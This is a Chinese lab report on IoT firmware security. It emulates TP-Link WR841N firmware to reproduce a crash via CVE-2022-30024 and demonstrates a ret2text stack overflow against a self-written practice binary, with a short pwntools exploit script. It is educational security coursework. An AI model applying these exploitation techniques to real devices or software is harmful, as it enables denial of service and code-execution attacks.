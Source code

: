 # 第四章：物联⽹固件安全基础
---

## 实验环境

- 操作系统: Kali Linux、Ubuntu
- 虚拟机软件: VirtualBox7.1.6

---

## 实验步骤

### 实验⼀：复现 CVE-2022-30024

#### 步骤⼀：获取存在漏洞的固件

直接下载相关固件
`wr841nv10_wr841ndv10_en_3_16_9_up_boot(150310).bin`
#### 步骤⼆：固件仿真

###### 手动仿真：
 1. 将固件放置于 `firmware` ⽬录下：
 2. 重新构建基础镜像
```sh
sudo docker build --no-cache --tag dir841 --build-arg 
FIRMWARE_PATH=./firmware --cpu-period 100000 --cpu-quota 100000 .
```
3. 启动仿真环境
```sh
sudo docker run -it -d --privileged -P dir841
```
通过查看容器的日志判断其仿真的情况：

![](./img/手动仿真日志启动成功.png)

4. 等待 3-5 分钟
5. 查看转发出来的端⼝
```sh
sudo docker ps
```

![](./img/查看端口地址.png)

6. 使⽤浏览器访问仿真出来的Web管理界⾯

![](./img/成功访问web端.png)

7. 输⼊⽤户名密码，均为admin，并修改跳转后的链接中的IP地址为kali虚拟机的IP地址和映射出来的端⼝

![](./img/admin登录.png)

#### 步骤三：设置浏览器代理
这里使用burpsuit或yakit的免配置代理，直接在其内部浏览器访问

![](./img/bp抓包.png)


#### 步骤四：复现漏洞
将之前抓包的请求放入 Burpsuite 的 Repeater 中，并进行下面的修改然后发送包：
第一次发送包的结果以为200的响应，还是正常的

![](./img/200ok第一次.png)

但当第二次发送这个请求时，不再有响应

![](./img/第二次没有.png)

回到web端去访问，发现已经被关闭了，确定发生了崩溃

![](./img/web'端无法访问.png)

### （扩展）PWN ret2text 演示

#### 首先编写一个c代码：

![](./img/c代码.png)

#### 编译
对这c代码进行编译：
需要注意的是这里在编译时取消了几个保护机制，以便后面进行栈溢出攻击:

![](./img/无pie保护.png)

![](./img/风险编译.png)

#### 查找函数地址

通过gdb工具定位success函数的地址：

![](./img/找到函数地址.png)

同时通过断点和调试找到风险函数gets的偏移并设置断点调试：

![](./img/找到gets偏移.png)

在gets处设置断点并构建字符串进行调试，找到缓冲区的大小以及溢出所需的偏移

![](./img/gets断点.png)

![](./img/构造溢出数据进行测试.png)

![](./img/pwndbg找到偏移24.png)

简单找到函数地址和偏移的这一步也可以直接在ida中进行：

![](./img/ida查看.png)

反编译后查看对应的地址和变量大小即可

#### 最后使用pwntools编写脚本进行攻击，获取flag：
```python
from pwn import *
binary_path = 'easy'
elf = ELF(binary_path)

p=process(binary_path)

addr = elf.symbols['success']

offset =24

payload = b'A' * offset +p32(addr)

p.sendline(payload)
p.interactive()
```

![](./img/攻击成功.png)


---

## 遇到的问题及解决方案

- pwntools语法不熟悉，通过搜索查询

---


